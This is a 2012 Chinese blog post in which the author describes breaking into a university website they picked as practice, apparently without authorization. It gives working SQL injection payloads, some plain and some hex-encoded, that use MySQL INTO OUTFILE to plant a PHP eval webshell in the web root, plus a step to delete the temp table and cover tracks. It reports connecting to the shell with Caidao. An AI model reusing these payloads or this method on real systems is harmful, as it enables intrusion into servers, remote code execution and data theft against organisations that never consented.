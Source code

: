 title: "mysql outfile getwebshell"
date: 2012-06-13 16:02:06
tags:
id: 57
comment: false
---

最近一直在找大学目标练手。也成功了不少。今天这个算是垂涎了许久吧。也算搞定了啊！
开始用各种神器去找注入，前两天一直也就没找到，主要是没有心情，这两天太热了，课也比较多！
今天晚上去打了两局台球心情还算可以吧，回来搞站也有心情了！但是在回来的路上确实有些倒霉，首先是下着大雨，遇到一对情侣；由于这穷学校没有路灯我只顾跑就把那个男的给撞了，男的没反应，女的发出了尖叫；男的瞬间大怒，我像孙子一样的给他们道歉才得以脱身。。。。。扯远了。。。。
还好找到3个，可惜只有1个可以使用，后来发现权限蛮高的，也算一点点运气吧 。 
用sqlmap看了下具有root权限,什么权限都有
找目录：
[![](http://neusec.cc/wp-content/uploads/2012/06/20120512110411_857.jpg "neusec.cc")](http://neusec.cc/wp-content/uploads/2012/06/20120512110411_857.jpg)
[code lang="c"]
Drop TABLE IF EXISTS temp;    //如果存在temp就删掉
Create TABLE temp(cmd text NOT NULL);    //建立temp表，里面就一个cmd字段
Insert INTO temp (cmd) VALUES(‘&lt;?php eval($_POST[cmd]);?&gt;’);   //把一句话木马插入到temp表
Select cmd from temp into outfile ‘E:\wwwroot\****\a.php’;   //服务是win的，查询temp表中的一句话并把结果导入到a.php
Drop TABLE IF EXISTS temp;   //删除temp(擦屁股o(∩_∩)o…)
[/code]
[![](http://neusec.cc/wp-content/uploads/2012/06/20120512101746_250.jpg "neusec.cc")](http://neusec.cc/wp-content/uploads/2012/06/20120512101746_250.jpg)
结果是不行的。
改手工了
[code lang="c"]
http://xxx.edu.cn/***********=11 order by 4 还回正常，到5就。。。
http://xxx.edu.cn/***********=11 and 0=1 union select 1,2,3,4
http://xxx.edu.cn/***********=11 and 1=0 union select 1,0x3C3F706870206576616C28245F504F53545B636D645D293B3F3E,3,4 into outfile ‘E:\wwwroot\****\a.php’
&lt;br&gt;
[/code]
[![](http://neusec.cc/wp-content/uploads/2012/06/20120512103212_599.jpg "neusec.cc")](http://neusec.cc/wp-content/uploads/2012/06/20120512103212_599.jpg)
菜刀连接很成功,提权未成功。